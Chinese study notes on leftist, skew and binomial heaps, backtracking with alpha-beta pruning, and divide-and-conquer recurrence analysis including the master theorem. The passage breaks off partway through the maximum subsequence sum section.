在右路径上有 \(r\) 个结点的左倾堆必然至少有 \(2^r−1\) 个结点（右路径指从根结点出发一路找右孩子直到找到叶子的路径）。
进而我们也可以推导出：有 \(n\) 个结点的左倾堆的右路径上至多有 \(\lfloor \log(n+1) \rfloor\) 个结点。
可以使用数学归纳法证明。
- 若 \(r=1\)，则显然至少存在 1 个结点。
-
设此结论对右路径上有小于等于 \(r\) 个结点的情况都成立，现在考虑在右路径上有 \(r+1\) 个结点的左倾堆。
此时根的右子树恰好在右路径上有 \(r\) 个结点，因此由归纳假设，右子树的大小至少为 \(2^r−1\)。而根据左倾堆的定义，左子树的 NPL 必须大于等于 \(r-1\)，即左子树的右路径上至少有 \(r\) 个结点，因此左子树的大小也至少为 \(2^r−1\)。因此整个左倾堆的大小至少为 \(1 + (2^r−1) + (2^r−1) = 2^{r+1} − 1\)。
左倾堆的操作与实现¶
我们主要解决三个核心操作：Insert、DeleteMin、Merge，其他的操作与二叉堆差别不大或者没有必要。
- Merge：最核心的操作，事实上是接下来两种操作的基础。
- Insert：可以视为一个堆和一个单结点堆的 Merge，因此问题转化为 Merge。
- DeleteMin：两个步骤实现：首先删除根结点，然后只需要将根结点的两个子树 Merge 即可，此关键问题还是 Merge。
于是我们发现这三种操作最终都归结于 Merge，时间复杂度也完全取决于 Merge，因此接下来只对 Merge 进行讨论。
对于 Merge 我们有递归和迭代两种版本的实现
递归实现¶

这里将 Merge 分为两个函数主要是为了模块化处理，避免将H1于H2因大小不同而交换的操作写在一个函数中，使函数更简洁。
合并为一个函数的写法
其主要步骤位为：
- 如果两个堆中至少有一个是空的，那么直接返回另一个即可；
- 如果两个堆都非空，我们比较两个堆的根结点
key的大小，key小的是H1，key大的是H2； - 如果
H1只有一个顶点（根据左倾堆的定义，只要它没有左孩子就一定是单点），直接把H2放在H1的左子树就完成任务了（很容易验证这样得到的结构符合左倾堆性质，此时Npl也没有变化）； - 如果
H1不只有一个顶点，则将H1的右子树和H2合并（这是递归的体现，在 base case 设计良好，其它步骤也都合理的情况下你完全可以相信这一步递归帮你做对了），成为H1的新右子树； - 如果
H1的 Npl 性质被违反，则交换它的两个子树； - 更新
H1的 Npl，结束任务。
Tip
这里有两个问题需要注意：
- 一定要及时更新 Npl，否则所有结点的 Npl 都是初始值 0
-
这一算法的复杂度如何？
我们可以发现这一递归程序的递归深度不会超过两个左倾堆的右路径的长度之和，不妨设
H1的大小为 \(N_1\)，H2的大小为 \(N_2\)，两者路径长度之和为 $$ O(\log N_1 + \log N_2) = O(\log N_1 N_2) = O(\log \sqrt{N_1 N_2}) = O(\log (N_1 + N_2)) $$这里的推导使用到了基本不等式 $ a + b \geqslant 2\sqrt{ab} $。总而言之，两个堆右路径长度之和是两个堆大小之和的对数级别，因此递归层数是 \(O(\log n)\) 的。
事实上每一层的操作都是常数的，因为需要进行的操作只有判断、交换子树、接上新的指针，以及更新 Npl，因此总的时间复杂度也是 \(O(\log n)\) 的
迭代实现¶

事实上，上面递归过程的展开实际上就等价于迭代算法的流程：每一次递归向下对应迭代中保留根结点更小的堆的左子树（就像是左子树不动，右子树等着接下来合并的结果），直到最后一次与 NULL 合并直接接上。
递归返回过程实际上就是逐个检查新的右路径上的结点是否有违反 Npl 性质的，并且更新 Npl；其它结点无需关心，因为在 merge 过程中它们根本就不受影响。
因为我们已经说明了迭代和递归的每一步都是有对应关系的，只不过递归是最后返回时才接上每个结点的右子树，而迭代在每一步的操作中就已经把前面的树连接好了，因此二者时间复杂度一样是 \(O(\log n)\)。
Note
我们在完成上面的流程后会观察到，在递归向下之后，或者说在交换孩子从而调整左倾堆性质之前，合并得到的堆的右路径是原来两个堆的右路径按键值大小排序合并的结果。因为我们每次都在比较两个堆的右路径上两个点的大小，然后把小的作为根插入。
发现这一规律之后，我们做题会更快捷一些，因为只需要把两条右路径从小到大排序，然后从小到大依次带着左子树连接，构成得到新的右路径即可（但要注意在此之后还可能需要交换左右子树调整使得满足左倾堆结构性质）。
总的来说，我们用代码实现迭代版本也并没有想象中复杂，只需要对两个堆右路径从小到大遍历操作，然后再从右路径最后一个点返回根结点，在返回的过程中不断更新 Npl 并检查结构性质即可。
斜堆¶
斜堆的定义和性质¶
斜堆与左倾堆的关系类似于 splay 树与 AVL 树的关系，就像 splay 树不再需要维护 AVL 树的 bf 属性，斜堆也不再需要维护左倾堆的 Npl 属性，而是直接通过交换左右子树来维护堆的性质，具体操作如下：
- base case：处理 H 与 NULL 连接的情况，左倾堆直接返回 H 即可，但斜堆必须要观察 H 的右路径，我们要求 H 的右路径上除了最大结点之外都必须交换其左右孩子
-
非 base case：若 H1 的根结点小于 H2，如果是左式堆，我们需要合并 H1 的右子树和 H2，将合并的结果作为 H1 的新右子树，然后再判断这样是否违反性质，是否需要交换左右孩子。
而斜堆每一次合并之后不管什么情况都要进行一次交换，也就是说每次这种情况都先把 H1 的左孩子换到右孩子的位置，然后把新合并的插入在 H1 的左子树上。

注意！
在做题时一定要以上面（PPT）中给出的方法为准，在维基百科等资料中斜堆在 base case 无需任何操作，但事实上如果按照 PPT 所说的，这之后还有可能有操作，作业和考试都应该按照这里和 PPT 上说的为准。
类似于左式堆，我们发现最后合并出的堆的左路径上，将包含两个原始堆的右路径结点排序后得到的结果，左路径的最末尾可能还连着原始堆右路径最大值的一些左孩子（因为这些左孩子是不被交换的）。
斜堆的摊还分析¶
斜堆具有像splay 树一样的 \(O(\log n)\) 的摊还操作代价，“Any M consecutive operations take at most \(O(M\log N)\) time”
因为对于斜堆来说，insert 和 deletemin 还是以 merge 为核心，因此我们只需要分析 merge 即可。
下面我们使用势函数法进行摊还分析，为了定义势函数我们还需要一些辅助的定义
重结点与轻结点
我们称一个结点 \(P\) 是重的（heavy），如果它的右子树结点个数至少是 \(P\) 的所有后代的一半（后代包括 \(P\) 自身）。反之称为轻结点（light node）。
此外我们还需要一个引理
Lemma
对于右路径上有 \(l\) 个轻结点的斜堆，整个斜堆至少有 \(2^l-1\) 个结点，这意味着一个 \(n\) 个结点的斜堆右路径上的轻结点个数为 \(O(\log n)\)。
我们可以用数学归纳法来证明。对于 \(l=1\) 的情况显然成立，现在设右路径轻结点个数小于等于 \(l\) 时，斜堆至少有 \(2^l-1\) 个结点的结论都成立。
现在考虑右路径有 \(l+1\) 个轻结点的情况，设右路径第一个轻结点为 \(P\)，根据轻结点的定义，它的左子树要大于等于右子树。而 \(P\) 的右子树的右路径上有 \(l\) 个轻结点，因此 \(P\) 的右子树大小至少为 \(2^l-1\)，又因为 \(P\) 的左子树结点数要大于等于右子树结点数，因此 \(P\) 为根的树至少有 \(1 + (2^l-1) + (2^l-1) = 2^{l+1}-1\) 个结点，从而整个堆至少有 \(2^{l+1}-1\) 个结点。
最终我们要通过摊还分析得到的定理如下：
定理
若我们有两个斜堆 \(H_1\) 和 \(H_2\)，它们分别有 \(n_1\) 和 \(n_2\) 个结点，则合并 \(H_1\) 和 \(H_2\) 的摊还时间复杂度为 \(O(\log n)\)，其中 \(n=n_1+n_2\)。
Proof
我们定义势函数 \(\Phi(H_i)\) 等于堆 \(H_i\) 的重结点（heavy node）的个数，并令 \(H_3\) 为合并后的新堆.我们设 \(H_i(i=1,2)\) 的右路径上的轻结点数量为 \(l_i\)，重结点数量为 \(h_i\)，因此真实的合并操作最坏的时间复杂度为 $$ c_i=l_1+l_2+h_1+h_2 $$ 因为这里所有的操作都在右路径上完成。因此根据摊还分析我们知道摊还时间复杂度为 $$ \hat{c_i} = c_i + \Phi(H_3) - (\Phi(H_1) + \Phi(H_2)) $$
事实上，在 merge 前我们可以记 $$ \Phi(H_1) + \Phi(H_2) = h_1 + h_2 + h $$ 其中 \(h\) 表示不在堆的右路径上的重结点个数。
现在我们要考察合并后的情况，事实上我们可以观察到非常重要的两点:
- 只有在 \(H_1\) 和 \(H_2\) 右路径上的结点才可能改变轻重状态，这是很显然的，因为其它结点合并前后子树是完全被复制的，所以不可能改变轻重状态；
- \(H_1\) 和 \(H_2\) 右路径上的重结点在合并后一定会变成轻结点，这是因为右路径上结点一定会交换左右子树，并且后续所有结点也都会继续插入在左子树上（这也表明轻结点不一定变为重结点）。
结合以上两点，我们知道合并后原本不在右路径上的 \(h\) 个重结点仍然是重结点，在右路径上的 \(h_1 + h_2\) 个重结点全部变成轻结点，\(l_1 + l_2\) 个轻结点不一定都变重，因此合并后我们有 $$ \Phi(H_3) \leqslant l_1 + l_2 + h $$ 带入数据计算可得 $$ \hat{c_i} \leqslant (l_1+l_2+h_1+h_2) + (l_1+l_2+h) - (h_1+h_2+h) = 2(l_1+l_2) $$
根据前面的引理，\(l_1+l_2 = O(\log n_1+\log n_2) = O(\log (n_1+n_2)) = O(\log n)\)。并且注意到初始（空堆）势函数一定为 0，且之后总是非负的，所以这一势函数定义满足要求，因此我们的证明也就完成了。
二项堆¶
约 2601 个字 100 行代码 3 张图片 预计阅读时间 12 分钟
二项堆的定义与性质¶
对于一般的二叉堆，我们知道其插入和删除操作的时间复杂度为 \(O(\log n)\)，而从空堆开始，构造一个含有 \(n\) 个元素的二叉堆的时间复杂度可以做到 \(O(n)\)（要注意此时并不是直接从零开始插入 \(n\) 个元素，可以回顾FDS的内容）。
很遗憾的是先前讨论的左倾堆与斜堆虽然保证了 merge 的时间复杂度是 \(O(\log n)\)，却不能在 \(O(n)\) 时间内实现 \(n\) 个结点的插入建堆操作，二项堆的思想就源自于此。
二项堆的定义
-
结构性质：
- 二项堆不再是一棵树，而是多棵树构成的森林（一些树构成的集合），其中每一棵树都称为二项树
- 一个二项堆中的每棵二项树都具有不同的高度，即每一个高度最多对应一棵二项树
- 高度为 \(0\) 的二项树 \(B_0\) 是一个单节点树；高度为 \(k\) 的二项树 \(B_k\) 由一棵高度为 \(k-1\) 的二项树 \(B_{k-1}\) 附加到另一棵二项树 \(B_{k-1}\) 的根上而构成
-
堆序性质：
- 二项堆中的每棵二项树都满足堆序性质（最小堆或最大堆）
观察可以发现
- 一棵二项树 \(B_k\) 实际上就是一个树根结点连接着 \(k\) 棵二项树 \(B_0, B_1, \cdots, B_{k-1}\) 构成的
- 高度为 \(k\) 的二项树恰好有 \(2^k\) 个结点
- 深度为 \(d\) 的节点数为二项系数 \(\binom{k}{d}\)
数学归纳法证明
- 对于 \(k=0\) 的情况，上述结论显然成立
-
假设直到 \(k\) 的情况结论都是成立的，则对于 \(B_{k+1}\)，第一层和最后一层显然只有一个结点，对于其他层，由于 \(B_{k+1}\) 是由两个 \(B_k\) 拼接得到的， \(B_{k+1}\) 在第 \(i\) 层的结点数以下两部分组成：
- 一棵 \(B_k\) 的第 \(i\) 层，有\(\binom{k}{i}\) 个结点
- 另一棵 \(B_k\) 的第 \(i-1\) 层，有\(\binom{k}{i-1}\) 个结点
因此由归纳假设 \(B_{k+1}\) 的第 \(i\) 层有 \(\binom{k}{i} + \binom{k}{i-1} = \binom{k+1}{i}\) 个结点，命题得证
从上面的证明我们可以很自然地看出二项堆与二项树这个名字的由来。
我们也可以把二项堆与二进制表示结合起来。例如含有 \(13 = 1101_2\) 个结点的二项堆由三棵二项树 \(B_3, B_2, B_0\) 组成，二进制表示中1的个数就是这个二项堆中二项树的棵数。
二项堆的操作¶
FindMin¶
直接遍历所有二项树的根结点即可，注意到对于有 \(n\) 个结点的二项堆，至多有 \(\log n\) 棵二项树，因此时间复杂度为 \(O(\log n)\).
我们也可以专门记录最小的根结点来实现 \(O(1)\) 的时间复杂度，只不过在 DeleteMin 的时候需要重新找到最小的根结点并更新。
Insert & Merge¶
插入是合并的一种特殊情况，只需将新插入的结点视作一个单节点的二项堆，因此我们只需要分析合并即可。
二项堆的合并可以与二进制数表示相结合，例如一个有 \(B_3, B_2, B_0\) 的二项堆与有 \(B_3, B_1, B_0\) 的二项堆合并，我们只需要类比二进制加法 \(1101_2 + 1011_2 = 11000_2\)，就可以很自然的发现最终得到的二项堆是 \(B_4, B_3\)。
时间复杂度的分析也很简单，在保证堆的存储顺序是按高度从小到大排列的前提下，时间复杂度为 \(O(\log n)\)
Note
进行插入操作时，如果不存在的二项树中最小的是 \(B_i\)，那么我们至多需要进行 \(i+1\) 次将两棵树合并的操作（类比于二进制加法的进位就可以很容易看出）。
DeleteMin¶

- 先用 \(O(\log n)\) 的时间找到根的最小值 Min（也可能是 \(O(1)\) 的时间，但这意味着所有操作结束后还需要更新最小值）
-
接着我们可以得到两个二项堆
- 其一是原二项堆移除 Min 所在的树后剩下的堆
- 其二是 Min 所在的树移除根结点（移除 Min）后得到的堆
-
将这两个二项堆合并即可
最终所需的时间复杂度显然是 \(O(\log n)\) 的。
从空堆开始建堆的摊还分析¶
对于从空开始插入建堆的时间复杂度我们需要做特殊的分析。因为我们是要求出平均时间的最坏情况，事实上也就是摊还代价，这里提供聚合法以及势能法两种摊还分析方法。
Note
聚合法需要每一步的操作复杂度，实际上我们随便模拟几步再结合之前讨论的合并和二进制加法之间的关系就可以发现，插入的整个操作与二进制数加1有完全的对应关系：
- 若遇到某一位是 1+1，则用常数操作完成简单的合并即可
- 若遇到某一位是 0+1，那么最终当前位的二项树就是 “1” 对应的那个二项树
基于这一观察我们可以发现 0+1 对应将 0 置 1，1+1 对应 1 置 0，这两种情况都对应于堆的常数时间操作，因此从空树连续插入 \(n\) 个顶点的时间复杂度与 0+1+1···（n个1）的过程中数据二进制表示中 0 和 1 比特翻转的次数总和相对应。
为我们知道 \(n\) 对应于 \(\lfloor \log n \rfloor + 1\) 个二进制位，事实上最低位每次加 1 都会反转比特，次低位每两次运算反转比特，倒数第三位每 4 次运算反转比特...... 以此类推， \(n\) 次操作的整体时间复杂度与 $$ n + \dfrac{n}{2} + \dfrac{n}{4} + \cdots + \dfrac{n}{2^{\lfloor \log n \rfloor + 1}} $$ 成正比，根据等比数列求和可知上述求和是小于 \(2n\) 的（取 \(n \to \infty\) 才能到 \(2n\)）.
因此插入 \(n\) 个结点的摊还时间复杂度是 \(O(n)\) 的，那么平均每步操作的时间复杂度是 \(O(1)\)。
同样考虑二进制加法问题，我们发现复杂度很大的操作都对应于很多的复位（1 变 0）和一个置位（0 变 1），因此我们直接设势能函数 \(\Phi\) 为二进制表示中 1 的个数（即二项堆中树的个数）。
假设第 \(i\) 次操作除了新加入一个结点之外，还有 \(k(k \geqslant 0)\) 次复位，那么 \(c_i = k + 1\)，则
因此对于每一步操作的摊还复杂度都是 \(O(1)\) 的。
二项堆的代码实现¶
由于二项堆为了满足从空堆开始构造一个含有 \(n\) 个元素的堆的时间复杂度可为 \(O(n)\) 的目标，舍弃了二叉堆这个性质，因此不能使用简单的 LeftChild 和 RightChild，我们使用 LeftChild 和 NextSibling 的组合实现，即每个结点的左指针指向自己最大的子树，右指针指向自己的兄弟。
需要注意的是这里根的子树从左到右高度依次减小，并且为了方便索引每棵二项树，我们用一个数组存储每棵二项树的根，其中数组的索引就对应二项树的高度。

结构定义¶
Combine¶

我们知道 Insert 和 DeleteMin 的关键操作都是 Merge，而在 merge 中我们常常需要合并两颗大小相同的二项树，因此我们首先讨论 combine 的实现。
在 combine 两棵大小相同的两棵二项树时，结合堆的序性质以及 LeftChild 和 NextSibling 的实现，我们发现只需要将根结点更小的二项树 \(T_1\) 的根作为新二项树的根，根结点大的树 \(T_2\) 作为新根的 LeftChild，再将 \(T_2\) 的 NextSibling 指针接上原先 \(T_1\) 除去根结点的剩余部分即可。
这里的时间复杂度显然是常数的。
Merge¶
在下面 Merge 操作的实现中，从小到大依次对二项堆中的树进行合并，Carry表示是否有进位，T1表示来自二项堆H1的树，T2表示来自二项堆H2的树。
4*!!Carry + 2*!!T2 + !!T1中!!的作用是将树转换为二进制表示，即将非空的树转换为1，空树转换为0000：此时什么都不需要做，因为三个位置都是空的001：同样什么都不需要做，此时H1非空，H2是空树，不需要进行合并010：此时需要将H2的树转移到H1上011：此时需要进位，即两棵相同大小的二项树合并为一棵更大的二项树，Carry要变为两数之和，H1与H2要被清空100：类似于010的情况，但此时是把Carry接到H1上101：需要进位，当前位置0，新的Carry等于原先的Carry与H1合并的结果110：遇上一种情况类似，新的Carry等于原先的Carry与H2合并的结果111：此处做法不唯一，我们只需要保留三棵树中的任意一棵，再将另外两棵合并然后进位上去即可
乍一看情况很多很复杂，但只要把它与二进制的竖式加法对应起来，就很容易理解了。
DeleteMin¶
上面这段代码也不难理解
- 首先是一些错误处理和初始化
- 接着找到最小元素以及它所在的树，将最小树存储在
DeletedTree中，然后将其从二项堆中移除 - 保存根节点到
OldRoot，然后将DeletedTree改为指向其左子树，释放OldRoot所占的内存 - 接着初始化一个新的二项队列
DeletedQueue，用于存放从最小树中拆分出的二项树 - 最后更新原二项堆
H的大小，再将H与DeletedQueue与原二项堆合并 - 返回刚刚找到的最小元素
回溯法¶
约 2206 个字 95 行代码 4 张图片 预计阅读时间 10 分钟
基本思想¶
对于某些问题，我们需要找到符合条件的所有解，即使所有的可能性是有限的，但我们使用暴力搜索（exhausting search），或称蛮力法（Brute Force）来对所有的可能性进行逐一检查显然是效率低下的方法。但在很多情况下，我们可以通过某些判断将许多可能的结果排除掉，从而减少搜索的空间，例如从某一步操作开始需要满足的条件就已经不被满足了，那么从这一步开始的后续操作就不需要再进行了。这种排除的过程我们称之为“剪枝”（Pruning）。
回溯法的核心思想就是在尝试解决问题的过程中，当发现在进行了一系列操作 \((a_1, a_2, \cdots, a_n)\) 后，尝试进行下一步操作 \(a_{n+1}\) 时，
- 假如发现操作序列 \((a_1, a_2, \cdots, a_n, a_{n+1})\) 仍然满足所有的约束条件那么就继续尝试下一步操作 \(a_{n+2}\)
- 否则，如果发现无论 \(a_{n+1}\) 怎么选择，题目的某种约束条件都无法被满足，或是发现之后的操作已经无法再进行下去了，就撤销操作 \(a_n\)，回到 \((a_1, a_2, \cdots, a_{n-1})\) 的状态，尝试其他的操作 \(a_n'\)
这样一来，我们就可以通过不断的尝试和回溯来找到所有的解，同时排除掉了许多不可能的情况（当一种不可能成功的操作序列在进行到一半时，就已经发现后续不可能满足约束条件了，后续的操作就不需要再进行下去了），从而提高了搜索的效率。
简单来说回溯法就是不断地尝试，假如发现不行就撤销操作，尝试其他的方法。
回溯法的应用¶
八皇后问题¶
八皇后问题是一个经典的组合优化问题，问题的描述是：在一个 \(8 \times 8\) 的棋盘上放置八个皇后，使得每个皇后都不在同一行、同一列和同一对角线上（皇后之间都无法彼此攻击）。
我们可以通过回溯法来十分便捷地解决这个问题，简单来说就是先尝试着不断放下皇后，假如发现在某个位置放置皇后之后，就已经没有可以放置新皇后的地方了，那么就撤回这个皇后，尝试其他的位置；假如这个不管放在哪里都会导致有一些皇后无法放置下去，那么就递归地回到上一步，撤销上一个皇后的位置，尝试其他的位置。
\(k\) 皇后问题是八皇后问题的一般化，即在一个 \(k \times k\) 的棋盘上放置 \(k\) 个皇后，使得每个皇后都不在同一行、同一列和同一对角线上。
一个简单的 \(k\) 皇后问题 Python 实现
收费公路问题 (turnpike problem)¶
这个问题的名称得自于对美国西海岸公路上那些收税公路出口的模拟，它在物理学和分子生物学中都有应用，实际上就是给定一条直线上的 \(n\) 个点，以及每两两个点之间的距离，求这些点的集合是否能够唯一地确定这条直线上的所有点。

- 我们的想法非常简单，就是首先确定点的个数以及两个端点的位置，例如在上图的例子中左右两个端点的位置分别是 0 和 10，接下来的每一步都考虑目前剩余的最大的距离，显然这个距离一定是新放置的端点与两个端点其中之一的距离。
- 于是对于每一个新的点我们都有两种放置的方法（与左端点的距离或与右端点的距离），我们可以依次尝试这两种放置方法，假如发现放置后接下来的点就无法满足给定的距离，那么就撤销这个点的放置，尝试另一种放置方法（假如两种方法都是不行的，那么就说明需要回溯到上一个点，尝试其他的放置方法）。
- 就这么进行下去，直到所有的点都被放置完毕，或是发现此时这一个问题没有任何解法。
从上图中我们也可以看到，不断进行回溯的过程就是一个建立决策树的过程，另外根据对称性我们知道当我们找到一种解法之后，我们只需要把这一条直线左右对称一下就可以得到剩余的唯一一种解法。
PPT 中的伪代码
因此我们也可以得到一个对于一般回溯问题的框架
博弈¶
井字棋博弈（Tic-tac-toe）¶
在上面的问题中我们已经看到了一些决策树建立的例子，如果是双人乃至多人决策，那么我们面对的问题就是一个（扩展式）博弈问题。下面以井字棋（Tic-tac-toe）为例，介绍博弈相关的内容。
无论在何种博弈中，以下条件都是必不可少的
- 参与人：在 Tic-tac-toe 中就是两个玩家，计算机与人类
- 策略：在 Tic-tac-toe 博弈中就是每个玩家在看到当前的棋局情况做出的行动决策
- 效用函数：在一般博弈中，理性人追求的是自己的效用最大化，在PPT中，我们将效用函数用自己与对手的 “number of potential wins at position P” 之差来表达，也就是说在当前的局势下还有多少种可能的赢法。

在 PPT 的例子中，我们为参与者指定的策略是所谓的“最大最小策略”（或“最小最大策略”），显然计算机玩家想要让效用函数最大，而人类玩家想要让效用函数最小。
即人类玩家知道计算机玩家会在自己落子之后选择效用最大的下法，那么人类玩家就要在各种可选的位置中挑选一个合适的位置，使得后续计算机玩家落子获取的最大效用最小（也就是说想办法削减效益函数的上限）；反之，假如人类想要最大化效用，并且知道计算机玩家会尽可能最小化效用，那么人类就应当选择使得效用的下限最高的一种落子方法。
\(\alpha-\beta\) 剪枝¶
实际上 \(\alpha-\beta\) 剪枝的主要思想已经在上一段话中介绍了，下面举的例子中的 max 与 min 表示在这一层中，操作者的目标是最大化效用还是最小化效用

-
所谓 \(\alpha\) 剪枝就是我要使得效用函数最大化，那么我就要从可选的操作中选择效用的下限最大的一种（因为对手一定会在下一步操作中把效用变得最小），那么在寻找效用下限最大的操作的过程中，就会发现有一些操作的下限比已知的其他操作要低，那么这些操作的后续步骤实际上就不需要遍历了，这就是所谓的“剪枝”。
如右图所示，我已经知道如果选左侧路径至少能得到 44 的效用，但如果我选择右侧路径，我们发现有一个叶结点我只能得到 40 的效用，由于对手一定会最小化效用，那么无论右侧路径剩余的叶结点是多少，右侧路径的效用下限也不会高于 40，这个下限已经低于左侧路径了，因此无论右侧路径的右下方叶结点是多少，我都不需要再进行搜索了，因为我一定会选择左侧路径，这个结点就被 \(\alpha\) 剪枝（pruning）剪掉了，在图中用染黑表示。

- \(\beta\) 剪枝也是类似的情况，只不过我此时的目标是最小化效用函数，因此要寻找效用上限最低的操作。右图中我已知左侧的路径效用至多为 44，右侧路径的左下角叶结点效用为 68，那么右侧路径的效用上限不会低于 68，此时已经高于了 44，那么就不需要搜索右侧路径其他的叶结点了，我一定会选择左侧路径，未探索的结点直接 \(\beta\) 剪枝剪掉即可。
分治法¶
约 2601 个字 5 张图片 预计阅读时间 10 分钟
分治的思想不再赘述，简单来说就是将一个大问题分解成若干个子问题，然后递归地解决这些子问题，然后将这些子问题的解合并起来得到原问题的解。通常而言，分治法递归的时间复杂度递推公式具有如下形式： $$ T(n) = aT(n/b) + f(n) $$ 其中 \(a\) 为子问题的个数，\(b\) 与子问题划分方式有关，是子问题长度的收缩因子，\(f(n)\) 则是合并各个子问题的解需要的时间。当然，有时候我们并不能得到这么寻常的结构。
分治法的时间复杂度分析¶
代入法¶
代入法实际上就是先猜测答案，然后通过数学归纳法来证明我们的猜测是正确的。虽然会有些莫名其妙，毕竟如果我能直接猜出来答案，还证明什么呢。但是在考试和作业中都是选择判断题的情况下，代入法是一个非常便捷有效的方法。代入法一般分为两步：
- 猜测解的形式；
- 用数学归纳法求出解中的常数，并证明解是正确的。


在运用代入法的时候有几点值得注意：
- 对于 \(N\) 足够小的时候，我们几乎可以认为操作的复杂度是一个常数，因此我们无需担心归纳的 base case，直接分析即可；
- 进行归纳时的常数 \(c\) 应当是一个保持不变的定值，也就是说对于不同大小的 \(N\) 我们应当使用相同的 \(c\)。
- 有时会出现猜测的上界偏大的情况，这时候即使能够证明，但也不是一个最紧的上界。这时我们可以利用一些熟悉的结论，例如归并排序等；也可以猜测出一些比较松的上下界，然后不断向中间逼近一个最紧的上下界。
代入法
求解递归式 \(T(n) = 2T(\lfloor \sqrt{n} \rfloor) + \log n\) 的时间复杂度。
为了方便起见，我们不考虑值的舍入误差问题，只考虑 \(\sqrt{n}\) 是整数的情况。令 $ m = \log n $，得到 $$ T(2^m) = 2T(2^{m/2}) + m $$
接着，我们令 \(S(m) = T(2^m)\)，则有 \(S(m) = 2S(m/2) + m\)，这就得到了我们熟悉的归并排序的结果，因为 \(S(m) = O(m \log m)\)，因此 \(T(n) = O(\log n \log \log n)\)。
递归树法¶

从图中就可以简单直接地看出来递归树的画法，并且注意到树每一层的时间复杂度就代表下一层合并到这一层所需的时间复杂度，而每一个叶结点的复杂度就是 base case 的复杂度，这显然是常数的。
我们注意到时间复杂度主要分为两个部分，第一部分是各层合并时所需的时间，第二部分就是处理 base case 的总时间，这两个部分谁更大，谁就决定（master）了整体的时间复杂度，这也是后面的主定理（master theorem）的思想。

当画出来的递归树不是一棵完全树的时候，对其进行复杂度分析是相当困难的，这时候我们可以观察之后使用代入法猜测并验证。
Example
给定一个整数 \(M\) $$ T(n) = \begin{cases} 8T(n/2) + 1 & n^2 > M \\ M & otherwise \end{cases} $$
我们可以画出递归树，发现有 $ \log_2 (n/\sqrt{M}) $ 层，每层合并需要 1 个单位时间，并且有 $ 8^{\log_2 (n/\sqrt{M})}$ 个叶结点，每个叶结点需要 \(M\) 的时间，因此总时间复杂度为 $$ O(M \cdot 8^{\log_2 (n/\sqrt{M}) } + \log_2 (n/\sqrt{M})) = O(n^3/\sqrt{M}) $$
主定理¶
主定理的证明什么的就不写了，具体详见《算法导论》，这里直接给出结论和一些例题
主定理形式1
考虑如下形式： $$ T(n) = aT(n/b) + f(n) $$，其中 \(a \geqslant 1, b \geqslant 1\)
- 若对于某个常数 \(\epsilon > 0\)，有 \(f(n) = O(n^{\log_b a - \epsilon})\)，则 \(T(n) = \Theta(n^{\log_b a})\)
- 若 \(f(n) = \Theta(n^{\log_b a})\)，则 \(T(n) = \Theta(n^{\log_b a} \log n)\)
- 若对于某个常数 \(\epsilon > 0\)，有 \(f(n) = \Omega(n^{\log_b a + \epsilon})\)，且对于某个常数 \(c < 1\) 和充分大的 \(n\)，有 \(a f(n/b) \leqslant c f(n)\)，则 \(T(n) = \Theta(f(n))\)
需要注意，以上这三种情况并未覆盖 \(f(n)\) 的所有可能性，情况 1 和情况 2 之间有一定间隙，情况 2 和情况 3 之间也有一定间隙。如果函数 \(f(n)\) 落在这两个间隙中，或者情况 3 中要求的正则条件不成立，就不能使用主方法来求解递归式。我们来看一个不符合正则条件的例子：
Example
令 $ T(n) = T(n/2) + n(2-\cos n \pi)$，此时 \(a = 1,b = 2\)，且我们知道 \(\cos\) 函数的取值是 -1 到 1，满足第三种情况的第一个条件，但是不满足第三种情况的正则条件。因为如果满足正则条件，我们代入有 $$ \dfrac{n}{2}(2-\cos \dfrac{n\pi}{2}) \leqslant cn(2-\cos n\pi) $$ 对某个常数 \(c<1\) 和充分大的 \(n\) 都成立。然而，当 \(n\) 很大时，我们总可以取 \(n=4k+2\) 这种形式破坏上面这一不等式。
事实上无论什么形式的主定理，其关键都在于比较 $ n^{\log_b a} $ 和 \(f(n)\) 之间的关联，如果前者大，那么就说明此时 \(a\) 比较大，递归树的分叉多，更大的复杂度会落在叶子上，所以时间复杂度就是 $ T(n) = aT(n/b) $ 对应的复杂度；反之则表示中间每一层的复杂度较大，故整体时间就是 \(f(n)\) 级别的。
这里的思想在递归树已经阐述过了，实际上就是看前后两部分谁 master 了整体时间复杂度，这就是“主定理”名字的由来。
主定理形式2
- 若对于某个常数 \(c>1\) 有 \(a f(n/b) = c f(n)\)，则 \(T(n) = \Theta(n^{\log_b a})\)
- 若 \(a f(n/b) = f(n)\)，则 \(T(n) = \Theta(n^{\log_b a} \log n)\)
- 若对于某个常数 \(c<1\) 有 \(a f(n/b) = c f(n)\)，则 \(T(n) = \Theta(f(n))\)
不难看出这里是上一形式主定理的推论，例如第一种情况 \(a f(n/b) = c f(n)\) 表明 $f(n) = \dfrac{a}{c} f(n/b) $，故可以递推得到 $$ f(n) = \dfrac{a^{\log_b n}}{c^{\log_b n}} = \dfrac{n^{\log_b a}}{n^{\log_b c}} = O(n^{\log_b a - \epsilon}) $$ 正好对应于原始形式的第一种情况，第二、三种情况也是同样的推导
主定理形式3
对于递推式 $ T(n) = aT(n/b) + \Theta(n^k \log^p n) $，其中 $a \geqslant 1, b > 1, k \geqslant 0, p \geqslant 0 $
- 若 \(a > b^k\)，则 \(T(n) = \Theta(n^{\log_b a})\)
- 若 \(a = b^k\)，则 \(T(n) = \Theta(n^k \log^{p+1} n)\)
- 若 \(a < b^k\)，则 \(T(n) = \Theta(n^k \log^p n)\)
上一主定理的形式还有更强的表达
主定理形式4
对于递推式 $ T(n) = aT(n/b) + \Theta(n^k \log^p n) $，其中 \(a \geqslant 1, b > 1, k \geqslant 0\)， 而 \(p\) 为任意实数
- 若 \(a > b^k\)，则 \(T(n) = \Theta(n^{\log_b a})\)
-
若 \(a = b^k\)，则
- 若 \(p > -1\)，\(T(n) = \Theta(n^k \log^{p+1} n)\)
- 若 \(p = -1\)，\(T(n) = \Theta(n^k \log \log n)\)
- 若 \(p < -1\)，\(T(n) = \Theta(n^k)\)
-
若 \(a < b^k\)，则
- 若 \(p \geqslant 0\)，\(T(n) = \Theta(n^k \log^p n)\)
- 若 \(p < 0\)，\(T(n) = \Theta(n^k)\)
分治法的应用¶
曾学过的问题¶
下面简单回顾一下曾经学过的利用分治思想的问题，并用主定理给出一些基本的分析
最大子序列和问题¶
假定我们要寻找子数组 \(A[low,high]\) 的最大子序列和，我们首先找到数组中央位置 mid，分治法很自然地将这个问题的解 \(A[i,j]\) 变为以下三种情况之一：
- 最大子序列和完全在 \(A[low,mid]\) 中，即 \(low \leqslant i \leqslant j \leqslant mid\)；
